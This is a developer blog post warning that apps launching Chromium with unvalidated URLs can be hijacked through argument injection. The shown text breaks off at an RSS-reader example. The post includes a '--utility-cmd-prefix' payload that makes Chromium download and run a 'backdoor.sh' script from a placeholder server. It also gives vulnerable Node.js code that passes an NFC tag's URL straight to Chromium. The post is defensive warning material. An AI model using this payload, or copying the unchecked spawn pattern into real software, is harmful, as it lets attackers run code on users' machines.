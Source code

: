 ```yaml
---
layout: post
title:  "Do not run chrome from your app!"
published: true
author: nemanjan00
image: /assets/chrome_malware_warnings.jpg
hero_image: /assets/chrome_malware_warnings.jpg
hero_darken: true
show_sidebar: true
---
```


This is example how your user can be hacked if you misuse chromium to open web links.

## Attack

What I have seen people do is something like this:

```c
url = "someurl"; // this is just pseudo-code
execlp("chromium", "chromium", url);
```

What that does is it runs this:

```bash
chromium someurl
```

And if they get something like this as parameter:

```
url = `--utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'`
```

What happens is user just got compromised...

```
chromium --utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'
```

To understand how big of issue this is I suggest reading [my post about command arguments](https://nemanja.top/2022/05/01/why-argv-sucks-for-users).

## Real danger example 1 (NFC/QRcode)

Now imagine you have just implemented NFC or QRcode reader...

You did not check url format, you passed it to chromium as url...

![](/assets/rfid.png)

Example vulnerable code:

```javascript
const { spawn } = require("child_process");
const fs = require("fs");

spawn("nfc-mfultralight", ["r", "dump"]).on("close", () => {
	const ndefLibrary = require('ndef-lib');

	const data = fs.readFileSync("./dump").slice(18);

	const message = new ndefLibrary.NdefMessage.fromByteArray(data);

	const url = Buffer.from(message._records[0]._payload).toString("utf8").slice(2);

	const shell = spawn("chromium", [url]);

	shell.stdout.on("data", data => {
		console.log("" + data);
	});

	shell.stderr.on("data", data => {
		console.error("" + data);
	});

	shell.on("close", (code) => {
		console.log(code);
	});
});
```

## Real danger example 2 (RSS reader/Mail client)

What happens if you want to open link you just took from XML or JSON and you trust it is valid link?

You just pass it to chromium?

